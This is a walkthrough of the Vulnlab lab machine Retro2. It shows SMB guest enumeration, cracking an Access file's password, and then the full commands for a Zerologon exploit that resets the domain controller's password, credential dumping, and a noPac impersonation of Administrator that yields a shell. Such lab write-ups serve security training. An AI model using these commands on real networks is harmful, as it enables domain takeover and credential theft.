 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Retro2/logo.png
date: 2025-01-07 09:45:47 +07:00
modified: 2025-01-7 09:45:47 +07:00
categories: Vulnlab
machine_author: 
  name: xct
  link: https://app.hackthebox.com/users/13569
tags: [Retro2, Zerologon, NoPac, SMB, null session, password cracking, John the Ripper, .accdb, Windows shares, Impacket, secretsdump, Active Directory, LDAP, Kerberos, privilege escalation, domain administrator, credential dumping]
title: Retro2 - Vulnlab
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/vulnbanner.png)

Retro2 presents a `easy` difficulty challenge, where enumeration reveals several critical services, including LDAP and SMB. After gaining initial access via guest login, I discover a password-protected Microsoft Access .accdb file, which I decrypt using John the Ripper. Credentials retrieved from the file allow further exploitation. Utilizing the credentials, I identify vulnerabilities in the system: Zerologon and NoPac. Zerologon enables me to reset the Domain Controller password without credentials, facilitating a complete credential dump using secretsdump. For NoPac, with valid credentials, I escalate privileges by impersonating the domain administrator, ultimately obtaining a shell and the root flag.


# Enumeration
The Nmap scan shows the following open ports.

```bash
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
```
After logging in with guest access, I found a password-protected .accdb Microsoft Access file.
`netexec smb 10.10.104.48 -u 'sz' -p '' --shares`
`smbclient \\\\\10.10.104.48\\Public -U "sz" -N`

![](https://photos.squarezero.dev/file/abir-images/Retro2/1.png)
![](https://photos.squarezero.dev/file/abir-images/Retro2/2.png)

I used John to crack the password.

![](https://photos.squarezero.dev/file/abir-images/Retro2/3.png)

Inside the file, I found credentials for ldapreader.

![](https://photos.squarezero.dev/file/abir-images/Retro2/4.png)

Using these credentials, it appears the system is vulnerable to both Zerologon and NoPac.

![](https://photos.squarezero.dev/file/abir-images/Retro2/5.png)

# ZeroLogon
For Zerologon, no credentials are required. Simply using the proof-of-concept (PoC) exploit changes the Domain Controller (DC) password to an empty string.

[Zerologon PoC](https://github.com/dirkjanm/CVE-2020-1472)

`python3 cve-2020-1472-exploit.py BLN01 10.10.84.249`

![](https://photos.squarezero.dev/file/abir-images/Retro2/8.png)

Afterward, I dumped all credentials using secretsdump.

![](https://photos.squarezero.dev/file/abir-images/Retro2/6.png)

# NoPac
For NoPac, valid credentials are needed. With the credentials, I was able to impersonate the domain administrator and get a shell.
`python3 noPac.py "retro2.vl"/'ldapreader':"ppYaVcB5R" -dc-ip 10.10.104.48 -shell --impersonate "Administrator" -use-ldap`

![](https://photos.squarezero.dev/file/abir-images/Retro2/7.png)


